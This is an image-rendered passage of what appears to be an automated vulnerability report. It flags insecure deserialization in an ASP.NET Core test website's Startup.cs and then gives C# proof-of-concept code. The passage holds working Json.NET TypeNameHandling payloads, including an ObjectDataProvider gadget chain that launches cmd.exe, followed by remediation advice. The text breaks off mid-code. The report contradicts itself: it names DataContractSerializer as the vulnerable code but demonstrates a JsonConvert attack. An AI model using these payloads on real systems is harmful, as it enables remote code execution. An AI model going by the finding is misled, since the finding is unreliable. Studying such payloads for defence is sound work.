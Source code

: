 **Proof of Concept Code:**
```csharp

// VULNERABILITY: Insecure Deserialization
// FILE: /tmp/aspnetcore_analysis/src/Mvc/test/WebSites/ApiExplorerWebSite/Startup.cs
// LINE: 29

// Vulnerable Code:
DataContractSerializer

// PROOF OF CONCEPT:
// 1. JsonConvert.DeserializeObject without type validation
// 2. Can lead to arbitrary object instantiation
// 3. Potential for remote code execution

// Malicious JSON Payload:
string maliciousJson = @"{
    ""$type"": ""System.Diagnostics.Process, System"",
    ""StartInfo"": {
        ""FileName"": ""calc.exe"",
        ""Arguments"": """"
    }
}";

// Exploitation:
// When this JSON is deserialized with TypeNameHandling.All:
var settings = new JsonSerializerSettings()
{
    TypeNameHandling = TypeNameHandling.All
};
var result = JsonConvert.DeserializeObject(maliciousJson, settings);
// This could execute calc.exe on Windows

// Advanced Payload for .NET Gadget Chain:
string advancedPayload = @"{
    ""$type"": ""System.Windows.Data.ObjectDataProvider, PresentationFramework"",
    ""MethodName"": ""Start"",
    ""ObjectInstance"": {
        ""$type"": ""System.Diagnostics.Process, System""
    },
    ""MethodParameters"": {
        ""$type"": ""System.Collections.ArrayList"",
        ""$values"": [
            ""cmd.exe"",
            ""/c echo pwned > c:\temp\pwned.txt""
        ]
    }
}";

// REMEDIATION:
// 1. Never use TypeNameHandling.All with untrusted input
// 2. Use allow-lists for deserialization
// 3. Implement custom JsonConverter with type validation
// 4. Use System.Text.Json instead of Newtonsoft.Json for better security

// Safe Deserialization:
public class SafeDeserializer
{
    private static readonly string[] AllowedTypes = { "MyApp.Models.User", "MyApp.Models.Product" };

    public T SafeDeserialize<T>(string json) where T : class
    {
        var settings = new JsonSerializerSettings()
```